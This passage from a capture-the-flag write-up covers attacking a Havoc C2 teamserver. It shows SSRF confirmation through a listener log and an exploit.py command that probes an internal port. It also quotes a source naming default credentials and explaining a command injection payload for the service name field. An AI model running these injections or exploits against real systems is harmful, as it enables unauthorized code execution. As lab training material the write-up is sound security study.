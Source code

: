 On my Python webserver, there’s a request for `/vulnerable`, which returns the 404 response shown above:

```

oxdf@hacky$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.49 - - [24/Jan/2025 13:51:43] code 404, message File not found
10.10.11.49 - - [24/Jan/2025 13:51:43] "GET /vulnerable HTTP/1.1" 404 -

```

#### Enumerating

With this SSRF, I’ll try to read the management port mentioned above:

```

oxdf@hacky$ uv run --script exploit.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056
...[snip]...
HTTP/1.1 404 Not Found
Content-Type: text/plain
Date: Fri, 24 Jan 2025 18:59:07 GMT
Content-Length: 18
Connection: close

404 page not found

```

The two filtered ports, 5000 and 7096, both return empty responses.

### Authenticated RCE

#### Identify

A bit more searching leads to a post from Include Security, [Vulnerabilities in Open Source C2 Frameworks](https://blog.includesecurity.com/2024/09/vulnerabilities-in-open-source-c2-frameworks/). It’s a bit of an overview style, without going into a ton of detail. But in the section on Havoc, there’s mention of an authenticated RCE exploit:

> Havoc has an authenticated RCE vulnerability in the teamserver that is similar to the one in Sliver. Further, the [default Havoc configuration](https://github.com/HavocFramework/Havoc/blob/main/profiles/havoc.yaotl#L12) creates two users with the password “password1234”, so anyone careless enough to run Havoc with default settings on an untrusted network can immediately be exploited by this RCE vulnerability. Teamservers that are firewalled off can still be hit due to a cool [SSRF vulnerability](https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/) discovered by chebuya recently.

The description even mentions the SSRF exploit I’ve already exploited! There’s more detail:

> An injection payload into the service name field looks something like `\" -mbla; CMD 1>&2 && false #`:
>
> - `\"` to exit out the quotes
> - `-mbla` to cause the MinGW compilation to fail and not have to wait for it
> - `CMD 1>&2` with the chosen payload redirected to stderr
> - `&& false` to cause the command to fail and the server to send back the stderr output
> - `#` to comment out the parameters after our injection
